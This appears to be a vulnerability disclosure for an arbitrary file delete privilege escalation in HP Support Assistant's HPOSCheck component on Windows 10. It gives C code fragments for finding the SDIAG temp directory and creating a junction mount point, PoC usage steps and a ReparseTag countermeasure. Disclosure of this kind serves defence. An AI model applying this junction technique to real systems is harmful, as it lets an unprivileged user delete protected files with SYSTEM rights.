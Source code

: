 ## HPOSCheck: Arbitrary File Delete Elevation of Privilege

<div>
  <table>
    <tr>
      <th colspan="2">Vulnerability Information</th>
    </tr>
    <tr>
      <td>Platform</td>
      <td>Windows 10 20H2 (OS Build 19042.1387)</td>
    </tr>
    <tr>
      <td>Vendor</td>
      <td>HP (Hewlett-Packard)</td>
    </tr>
    <tr>
      <td>Application</td>
      <td>Support Assistant (Version 9.11.106.0)</td>
    </tr>
    <tr>
      <td>Function</td>
      <td>Operating System Check</td>
    </tr>
    <tr>
      <td>Date of Discovery</td>
      <td>2021-12-01</td>
    </tr>
  </table>
</div>

### Summary
It logs and automatically deletes diagnostic data when performing operating system scans in HP Support Assistant running with normal User privileges. At this time, if the path is manipulated through NTFS Mount Point/Directory Junction among Windows Symbolic Links, it can be abused to delete arbitrary files with `SYSTEM` privileges.

### Detail
When HP Support Assistant is launched, the HPSAAppLauncher process runs as a child process of the AppHelperCap service. The AppHelperCap service is a basic service provided in HP notebooks and operates with `SYSTEM` privileges. Also, if the functions provided by HP Support Assistant are performed, a new process is launched as a child process of the HPSAAppLauncher process.
HP Support Assistant provides a number of features. If you go to Fix and Diagnostics in Device Support, the operating system check function exists, and when you do that, a new process called HPOSCheck runs with `SYSTEM` privileges.

> **Process Hacker: Check process permissions**

![image](https://user-images.githubusercontent.com/44025989/207381187-5c959a87-4ae1-4468-978f-0c46da69b55e.png)</br>

During the operating system check by the HPOSCheck process, diagnostic data for BITS, Windows Update, Device Center, Maintenance, and Device are created in the following paths with `SYSTEM` privileges, respectively.

```powershell
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\BITS
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\WindowsUpdate
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\DeviceCenter
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Maintenance
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Device
```

The generated data is deleted immediately by automatically calling the `DeleteFileW` function, and at the same time, the diagnostic data saved for each area in the `"C:\Windows\Temp\SDIAG_Random GUID\result"` path are integrated and saved. Afterwards, when the operating system check is finished, the `"SDIAG_Random GUID"` directory created in the path is deleted calling the `DeleteFileW` function with `SYSTEM` privilege.

```C
_TCHAR tempPath[1024] = L"C:\\Windows\\Temp";

WIN32_FIND_DATA data;

HANDLE hFind = FindFirstFile(L"C:\\Windows\\Temp\\SDIAG_*", &data);
if (hFind == INVALID_HANDLE_VALUE)
{
	printf("[!] Cannot Find sdiag Directory\n");
	return 1;
}

_TCHAR* sdiagDir = L"Error";

while (FindNextFile(hFind, &data) != 0)
{
	if (wcscmp(data.cFileName, L".") == 0 || wcscmp(data.cFileName, L"..") == 0)
		continue;
	else sdiagDir = data.cFileName;
}
```

The path where the `"SDIAG_Random GUID"` directory is created has high privileges, so general users cannot access it. However, one of the HP Support Assistant features, Performance Optimization, can be used to delete files in that path.
If the `"C:\Windows\Temp"` path is empty by optimizing the performance while the operating system check is in progress, the operating system check can still have the handle. At this time, if you make a directory junction to the `"result"` directory with an arbitrary path, you can follow the link and delete the files in the target path with `SYSTEM` privilege.

```C
CreateDirectory(sdiagPath, nullptr);
CreateDirectory(fullpath, nullptr);

if (CreateDirectory(fullpath, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
{
	if (!ReparsePoint::CreateMountPoint(fullpath, argv[1], argc > 2 ? argv[2] : L""))
	{
	printf("[!] Error creating mount point - %ls\n", GetErrorMessage().c_str());
		return 1;
	}
}
else
{
	printf("[!] Error creating directory - %ls\n", GetErrorMessage().c_str());
}
```

### Proof of Concept
1. After verifying user information, start HP Support Assistant.
2. Go to Device Support, then select Fixes and Diagnostics.
3. Run an operating system check.
4. Perform PoC in the format of `HPOSCheck_PoC.exe [target dir]`.
5. When the message `"Start Optimize performance without additional options and press ENTER"` appears, run performance optimization and press ENTER.
6. When the PoC ends with the phrase `"Now Close the operating system check window!!!"`, the operating system check ends.

> **Usage PoC**

![image](https://user-images.githubusercontent.com/44025989/207381332-e1bfb343-3d91-4733-9be9-da443ac7d326.png)</br>

### Demo
[![Video Label](http://img.youtube.com/vi/DeQCBZQaGVo/0.jpg)](https://youtu.be/DeQCBZQaGVo)

### Countermeasures
When performing operating system checks in HP Support Assistant running with normal user privileges, the `ReparseTag` must be checked internally when the `DeleteFileW` function is called.


### Reference
* **[symboliclink-testing-tools, Developed by James Forshaw](https://github.com/googleprojectzero/symboliclink-testing-tools.git)**

